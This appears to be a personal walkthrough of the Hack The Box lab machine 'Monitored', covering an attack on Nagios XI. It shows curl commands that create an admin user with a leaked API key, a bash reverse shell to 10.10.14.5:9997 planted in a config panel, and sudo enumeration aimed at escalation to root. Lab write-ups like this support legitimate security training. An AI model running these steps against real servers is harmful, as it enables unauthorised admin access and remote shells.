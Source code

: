 https://www.exploit-db.com/exploits/51925
-interesting :
```bash
data = {"username": random_username, "password": random_password, "name": random_username, "email": f"{random_username}@mail.com", "auth_level": "admin"}
    r = requests.post(f'http://{IP}/nagiosxi/api/v1/system/user?apikey={adminKey}&pretty=1', data=data, verify=False)
```
admin key =IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL  

---
https://support.nagios.com/forum/viewtopic.php?f=6&t=40502
```
curl -XPOST "http://x.x.x.x/nagiosxi/api/v1/system/user?apikey=xxx&pretty=1" -d "username=robertdeniro&password=test&name=Robert%20De%20Niro&email=robertdeniro@localhost&auth_level=admin&monitoring_contact=1"
{
    "success": "User account robertdeniro was added successfully!",
    "userid": "5"
```
-lets do it
```bash
┌──(pwn㉿kali)-[~]
└─$ curl -d "username=ahmad&password=ahmad&name=ahh&email=mad@monitored.htb&auth_level=admin&force_pw_change=0" -k 'https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL'
{"success":"User account ahmad was added successfully!","user_id":6}

```
-username=ahmad&password=ahmad
-login in the page 

![[Pasted image 20250206110808.png]]- accept the license
-am `user:ahmad` as admin
-bash -c 'bash -i >& /dev/tcp/10.10.14.5/9997 0>&1'
	in the managment config pannel 
![[Pasted image 20250206111232.png]]
-i miss the .5 as its my vpn ip 
-add bash -c '..........'
-save it
-
![[Pasted image 20250206111354.png]]
-
![[Pasted image 20250206112047.png]]

![[Pasted image 20250206112442.png]]

![[Pasted image 20250206112516.png]]

## post-exploitation
```bash
sudo -l
(root) NOPASSWD: /etc/init.d/nagios restart

nagios@monitored:/$ cat /usr/local/nagiosxi/scripts/manage_services.sh
---
./manage_services.sh restart mysqld
./manage_services.sh checkconfig nagios
---


nagios@monitored:/$ ps -ef | grep nagios
```
